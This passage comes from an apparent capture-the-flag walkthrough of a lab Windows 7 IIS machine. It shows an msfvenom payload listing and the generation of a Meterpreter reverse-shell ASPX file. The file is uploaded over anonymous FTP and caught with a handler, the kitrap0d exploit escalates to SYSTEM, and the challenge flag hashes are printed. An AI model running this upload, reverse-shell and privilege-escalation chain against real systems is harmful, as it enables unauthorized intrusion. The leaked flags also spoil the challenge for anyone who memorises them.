    windows/vncinject/bind_hidden_ipknock_tcp           Inject a VNC Dll via a reflective loader (staged). Listen for a connection. First, the port will need to be knocked from the IP defined in KHOST. This IP will work as an authentication method (you can spoof it with tools like hping). After that you could get your shellcode from any IP. The socket will appear as "closed," thus helping to hide the shellcode
    windows/vncinject/bind_hidden_tcp                   Inject a VNC Dll via a reflective loader (staged). Listen for a connection from a hidden port and spawn a command shell to the allowed host.
    windows/vncinject/bind_ipv6_tcp                     Inject a VNC Dll via a reflective loader (staged). Listen for an IPv6 connection (Windows x86)
    windows/vncinject/bind_ipv6_tcp_uuid                Inject a VNC Dll via a reflective loader (staged). Listen for an IPv6 connection with UUID Support (Windows x86)
    windows/vncinject/bind_nonx_tcp                     Inject a VNC Dll via a reflective loader (staged). Listen for a connection (No NX)
    windows/vncinject/bind_tcp                          Inject a VNC Dll via a reflective loader (staged). Listen for a connection (Windows x86)
    windows/vncinject/bind_tcp_rc4                      Inject a VNC Dll via a reflective loader (staged). Listen for a connection
    windows/vncinject/bind_tcp_uuid                     Inject a VNC Dll via a reflective loader (staged). Listen for a connection with UUID Support (Windows x86)
    windows/vncinject/find_tag                          Inject a VNC Dll via a reflective loader (staged). Use an established connection
    windows/vncinject/reverse_hop_http                  Inject a VNC Dll via a reflective loader (staged). Tunnel communication over an HTTP or HTTPS hop point. Note that you must first upload data/hop/hop.php to the PHP server you wish to use as a hop.
    windows/vncinject/reverse_http                      Inject a VNC Dll via a reflective loader (staged). Tunnel communication over HTTP (Windows wininet)
    windows/vncinject/reverse_http_proxy_pstore         Inject a VNC Dll via a reflective loader (staged). Tunnel communication over HTTP
    windows/vncinject/reverse_ipv6_tcp                  Inject a VNC Dll via a reflective loader (staged). Connect back to the attacker over IPv6
    windows/vncinject/reverse_nonx_tcp                  Inject a VNC Dll via a reflective loader (staged). Connect back to the attacker (No NX)
    windows/vncinject/reverse_ord_tcp                   Inject a VNC Dll via a reflective loader (staged). Connect back to the attacker
    windows/vncinject/reverse_tcp                       Inject a VNC Dll via a reflective loader (staged). Connect back to the attacker
    windows/vncinject/reverse_tcp_allports              Inject a VNC Dll via a reflective loader (staged). Try to connect back to the attacker, on all possible ports (1-65535, slowly)
    windows/vncinject/reverse_tcp_dns                   Inject a VNC Dll via a reflective loader (staged). Connect back to the attacker
    windows/vncinject/reverse_tcp_rc4                   Inject a VNC Dll via a reflective loader (staged). Connect back to the attacker
    windows/vncinject/reverse_tcp_rc4_dns               Inject a VNC Dll via a reflective loader (staged). Connect back to the attacker
    windows/vncinject/reverse_tcp_uuid                  Inject a VNC Dll via a reflective loader (staged). Connect back to the attacker with UUID Support
    windows/vncinject/reverse_winhttp                   Inject a VNC Dll via a reflective loader (staged). Tunnel communication over HTTP (Windows winhttp)
    windows/x64/exec                                    Execute an arbitrary command (Windows x64)
    windows/x64/loadlibrary                             Load an arbitrary x64 library path
    windows/x64/meterpreter/bind_ipv6_tcp               Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged x64). Listen for an IPv6 connection (Windows x64)
    windows/x64/meterpreter/bind_ipv6_tcp_uuid          Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged x64). Listen for an IPv6 connection with UUID Support (Windows x64)
    windows/x64/meterpreter/bind_tcp                    Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged x64). Listen for a connection (Windows x64)
    windows/x64/meterpreter/bind_tcp_uuid               Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged x64). Listen for a connection with UUID Support (Windows x64)
    windows/x64/meterpreter/reverse_http                Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged x64). Tunnel communication over HTTP (Windows x64 wininet)
    windows/x64/meterpreter/reverse_https               Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged x64). Tunnel communication over HTTP (Windows x64 wininet)
    windows/x64/meterpreter/reverse_named_pipe          Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged x64). Connect back to the attacker via a named pipe pivot
    windows/x64/meterpreter/reverse_tcp                 Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged x64). Connect back to the attacker (Windows x64)
    windows/x64/meterpreter/reverse_tcp_uuid            Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged x64). Connect back to the attacker with UUID Support (Windows x64)
    windows/x64/meterpreter/reverse_winhttp             Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged x64). Tunnel communication over HTTP (Windows x64 winhttp)
    windows/x64/meterpreter/reverse_winhttps            Inject the meterpreter server DLL via the Reflective Dll Injection payload (staged x64). Tunnel communication over HTTPS (Windows x64 winhttp)
    windows/x64/meterpreter_bind_tcp                    Connect to victim and spawn a Meterpreter shell
    windows/x64/meterpreter_reverse_http                Connect back to attacker and spawn a Meterpreter shell
    windows/x64/meterpreter_reverse_https               Connect back to attacker and spawn a Meterpreter shell
    windows/x64/meterpreter_reverse_ipv6_tcp            Connect back to attacker and spawn a Meterpreter shell
    windows/x64/meterpreter_reverse_tcp                 Connect back to attacker and spawn a Meterpreter shell
    windows/x64/powershell_bind_tcp                     Listen for a connection and spawn an interactive powershell session
    windows/x64/powershell_reverse_tcp                  Listen for a connection and spawn an interactive powershell session
    windows/x64/shell/bind_ipv6_tcp                     Spawn a piped command shell (Windows x64) (staged). Listen for an IPv6 connection (Windows x64)
    windows/x64/shell/bind_ipv6_tcp_uuid                Spawn a piped command shell (Windows x64) (staged). Listen for an IPv6 connection with UUID Support (Windows x64)
    windows/x64/shell/bind_tcp                          Spawn a piped command shell (Windows x64) (staged). Listen for a connection (Windows x64)
    windows/x64/shell/bind_tcp_uuid                     Spawn a piped command shell (Windows x64) (staged). Listen for a connection with UUID Support (Windows x64)
    windows/x64/shell/reverse_tcp                       Spawn a piped command shell (Windows x64) (staged). Connect back to the attacker (Windows x64)
    windows/x64/shell/reverse_tcp_uuid                  Spawn a piped command shell (Windows x64) (staged). Connect back to the attacker with UUID Support (Windows x64)
    windows/x64/shell_bind_tcp                          Listen for a connection and spawn a command shell (Windows x64)
    windows/x64/shell_reverse_tcp                       Connect back to attacker and spawn a command shell (Windows x64)
    windows/x64/vncinject/bind_ipv6_tcp                 Inject a VNC Dll via a reflective loader (Windows x64) (staged). Listen for an IPv6 connection (Windows x64)
    windows/x64/vncinject/bind_ipv6_tcp_uuid            Inject a VNC Dll via a reflective loader (Windows x64) (staged). Listen for an IPv6 connection with UUID Support (Windows x64)
    windows/x64/vncinject/bind_tcp                      Inject a VNC Dll via a reflective loader (Windows x64) (staged). Listen for a connection (Windows x64)
    windows/x64/vncinject/bind_tcp_uuid                 Inject a VNC Dll via a reflective loader (Windows x64) (staged). Listen for a connection with UUID Support (Windows x64)
    windows/x64/vncinject/reverse_http                  Inject a VNC Dll via a reflective loader (Windows x64) (staged). Tunnel communication over HTTP (Windows x64 wininet)
    windows/x64/vncinject/reverse_https                 Inject a VNC Dll via a reflective loader (Windows x64) (staged). Tunnel communication over HTTP (Windows x64 wininet)
    windows/x64/vncinject/reverse_tcp                   Inject a VNC Dll via a reflective loader (Windows x64) (staged). Connect back to the attacker (Windows x64)
    windows/x64/vncinject/reverse_tcp_uuid              Inject a VNC Dll via a reflective loader (Windows x64) (staged). Connect back to the attacker with UUID Support (Windows x64)
    windows/x64/vncinject/reverse_winhttp               Inject a VNC Dll via a reflective loader (Windows x64) (staged). Tunnel communication over HTTP (Windows x64 winhttp)
    windows/x64/vncinject/reverse_winhttps              Inject a VNC Dll via a reflective loader (Windows x64) (staged). Tunnel communication over HTTPS (Windows x64 winhttp)
root@kali:~/devel#
```

```sh
root@kali:~/devel# msfvenom --help-formats
Executable formats
	asp, aspx, aspx-exe, axis2, dll, elf, elf-so, exe, exe-only, exe-service, exe-small, hta-psh, jar, jsp, loop-vbs, macho, msi, msi-nouac, osx-app, psh, psh-cmd, psh-net, psh-reflection, vba, vba-exe, vba-psh, vbs, war
Transform formats
	bash, c, csharp, dw, dword, hex, java, js_be, js_le, num, perl, pl, powershell, ps1, py, python, raw, rb, ruby, sh, vbapplication, vbscript
root@kali:~/devel#
```

```sh
root@kali:~/devel# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.8 LPORT=5555 -f aspx -o reverse_tcp.aspx
No platform was selected, choosing Msf::Module::Platform::Windows from the payload
No Arch selected, selecting Arch: x86 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 333 bytes
Final size of aspx file: 2768 bytes
Saved as: reverse_tcp.aspx
root@kali:~/devel#
```

```sh
root@kali:~/devel# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put reverse_tcp.aspx
local: reverse_tcp.aspx remote: reverse_tcp.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2792 bytes sent in 0.00 secs (39.1567 MB/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
03-17-17  04:37PM                  689 iisstart.htm
01-31-18  12:34AM                 2792 reverse_tcp.aspx
03-17-17  04:37PM               184946 welcome.png
226 Transfer complete.
ftp> exit
221 Goodbye.
root@kali:~/devel#
```

###### Msfconsole

```
http://10.10.10.5/reverse_tcp.aspx
```

```sh
root@kali:~/devel# msfconsole
msf > use exploit/multi/handler
msf exploit(multi/handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(multi/handler) > set LHOST tun0
LHOST => 10.10.14.8
msf exploit(multi/handler) > set LPORT 5555
LPORT => 5555
msf exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.8       yes       The listen address
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 10.10.14.8:5555
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (10.10.14.8:5555 -> 10.10.10.5:49158) at 2018-01-27 09:52:28 -0500

meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 0
Meterpreter     : x86/windows
meterpreter > shell
Process 3888 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web

c:\windows\system32\inetsrv>systeminfo
systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          31/1/2018, 12:45:54 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 6 Model 63 Stepping 2 GenuineIntel ~2594 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 5/4/2016
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.024 MB
Available Physical Memory: 648 MB
Virtual Memory: Max Size:  2.048 MB
Virtual Memory: Available: 1.540 MB
Virtual Memory: In Use:    508 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5

c:\windows\system32\inetsrv>
c:\Users>exit
meterpreter > background
[*] Backgrounding session 1...
msf exploit(multi/handler) > sessions -i

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.8:5555 -> 10.10.10.5:49158 (10.10.10.5)

msf exploit(multi/handler) > search suggest
[!] Module database cache not built yet, using slow search

Matching Modules
================

   Name                                             Disclosure Date  Rank    Description
   ----                                             ---------------  ----    -----------
   auxiliary/server/icmp_exfil                                       normal  ICMP Exfiltration Service
   exploit/windows/browser/ms10_018_ie_behaviors    2010-03-09       good    MS10-018 Microsoft Internet Explorer DHTML Behaviors Use After Free
   exploit/windows/smb/timbuktu_plughntcommand_bof  2009-06-25       great   Timbuktu PlughNTCommand Named Pipe Buffer Overflow
   post/multi/recon/local_exploit_suggester                          normal  Multi Recon Local Exploit Suggester
   post/osx/gather/enum_colloquy                                     normal  OS X Gather Colloquy Enumeration


msf exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf post(multi/recon/local_exploit_suggester) > sessions -i

Active sessions
===============

  Id  Name  Type                     Information              Connection
  --  ----  ----                     -----------              ----------
  1         meterpreter x86/windows  IIS APPPOOL\Web @ DEVEL  10.10.14.8:5555 -> 10.10.10.5:49158 (10.10.10.5)

msf post(multi/recon/local_exploit_suggester) > show options

Module options (post/multi/recon/local_exploit_suggester):

   Name             Current Setting  Required  Description
   ----             ---------------  --------  -----------
   SESSION                           yes       The session to run this module on.
   SHOWDESCRIPTION  false            yes       Displays a detailed description for the available exploits

msf post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 38 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf post(multi/recon/local_exploit_suggester) >
msf post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms10_015_kitrap0d
msf exploit(windows/local/ms10_015_kitrap0d) > show options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf exploit(windows/local/ms10_015_kitrap0d) > set SESSION 1
SESSION => 1
msf exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 192.168.1.19:5555
[*] Launching notepad to host the exploit...
[+] Process 3212 launched.
[*] Reflectively injecting the exploit DLL into 3212...
[*] Injecting exploit into 3212 ...
[*] Exploit injected. Injecting payload into 3212...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Exploit completed, but no session was created.
msf exploit(windows/local/ms10_015_kitrap0d) > show options

Module options (exploit/windows/local/ms10_015_kitrap0d):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.19     yes       The listen address
   LPORT     5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 2K SP4 - Windows 7 (x86)


msf exploit(windows/local/ms10_015_kitrap0d) >
msf exploit(windows/local/ms10_015_kitrap0d) > set LPORT 5555
LPORT => 5555
msf exploit(windows/local/ms10_015_kitrap0d) > set LHOST 10.10.14.8
LHOST => 10.10.14.8
msf exploit(windows/local/ms10_015_kitrap0d) > run

[*] Started reverse TCP handler on 10.10.14.8:5555
[*] Launching notepad to host the exploit...
[+] Process 312 launched.
[*] Reflectively injecting the exploit DLL into 312...
[*] Injecting exploit into 312 ...
[*] Exploit injected. Injecting payload into 312...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (179779 bytes) to 10.10.10.5
[*] Meterpreter session 2 opened (10.10.14.8:5555 -> 10.10.10.5:49160) at 2018-01-27 09:57:53 -0500

meterpreter > sysinfo
Computer        : DEVEL
OS              : Windows 7 (Build 7600).
Architecture    : x86
System Language : el_GR
Domain          : HTB
Logged On Users : 0
Meterpreter     : x86/windows
meterpreter > shell
Process 3324 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami
whoami
nt authority\system

c:\windows\system32\inetsrv>
```

```
C:\>net statistics
net statistics
Statistics are available for the following running services:

   Server
   Workstation

The command completed successfully.


C:\>net statistics Server
net statistics Server
Server Statistics for \\


Statistics since 31/1/2018 12:46:11 ��


Sessions accepted                  1
Sessions timed-out                 0
Sessions errored-out               0

Kilobytes sent                     0
Kilobytes received                 0

Mean response time (msec)          0

System errors                      0
Permission violations              0
Password violations                0

Files accessed                     0
Communication devices accessed     0
Print jobs spooled                 0

Times buffers exhausted

  Big buffers                      0
  Request buffers                  0

The command completed successfully.


C:\>net statistics Workstation
net statistics Workstation
Workstation Statistics for \\


Statistics since 31/1/2018 12:46:10 ��


  Bytes received                               0
  Server Message Blocks (SMBs) received        10
  Bytes transmitted                            0
  Server Message Blocks (SMBs) transmitted     0
  Read operations                              0
  Write operations                             0
  Raw reads denied                             0
  Raw writes denied                            0

  Network errors                               0
  Connections made                             0
  Reconnections made                           0
  Server disconnects                           0

  Sessions started                             0
  Hung sessions                                0
  Failed sessions                              0
  Failed operations                            0
  Use count                                    0
  Failed use count                             0

The command completed successfully.


C:\>
```

```
C:\Users\Administrator\Desktop>type root.txt.txt
type root.txt.txt
e621a0b5041708797c4fc4728bc72b4b
C:\Users\Administrator\Desktop>
```

```
C:\Users\babis\Desktop>type user.txt.txt
type user.txt.txt
9ecdd6a3aedf24b41562fea70f4cb3e8
C:\Users\babis\Desktop>
```